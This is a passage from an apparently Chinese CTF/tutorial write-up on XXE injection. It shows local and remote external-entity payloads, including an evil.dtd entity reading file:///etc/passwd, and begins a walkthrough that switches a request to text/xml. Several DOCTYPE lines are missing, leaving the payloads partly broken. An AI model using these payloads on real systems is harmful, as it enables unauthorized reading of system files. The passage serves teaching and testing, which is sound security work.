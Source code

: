 恶意引入外部实体的三种方法
-------------

### 本地引入

XML内容：

```TEXT
<?XML version="1.0" ?> <!--XML声明-->

]><!--DTD文档类型定义-->
<root>&file;</root><!--文档元素-->
```

一个实体由三部分构成：一个与号 `&`，一个实体名称,，以及一个分号`;`

### 远程引入1

XML内容：

```TEXT
<?XML version="1.0" ?>

%d;
]>
<root>&file;</root>
```

DTD文件(evil.dtd)内容：

```TEXT
<!ENTITY file SYSTEM "file:///etc/passwd">
```

### 远程引入2

```TEXT
<?XML version="1.0" ?>

<root>&file;</root>
```

DTD文件(evil.dtd)内容：

```TEXT
<!ENTITY file SYSTEM "file:///etc/passwd">
```

回显型XXE
------

首先一点是xxe只跟libXML版本有关系，2.9.0以后默认禁止了引入外部实体，所以需要切换一个低版本的libXML。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-730a078c3e4cea69ee1cda69ded285a488610922.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-730a078c3e4cea69ee1cda69ded285a488610922.png)  
回到题目  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a90e7af9bde0d5d089b12a9a36b1be5d6289e6d0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a90e7af9bde0d5d089b12a9a36b1be5d6289e6d0.png)  
根据题目知道程序会解析`name`标签的内容并且回显出来。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-474eef7aac445eb9f604ecbacf84961ff96481cc.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-474eef7aac445eb9f604ecbacf84961ff96481cc.png)  
先抓POST包，然后把`Content-Type`改为`text/XML`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-929eca4da4c5410725bf1b63ce4601b3ebbd6ce4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-929eca4da4c5410725bf1b63ce4601b3ebbd6ce4.png)  
写一段正常的XML测试。
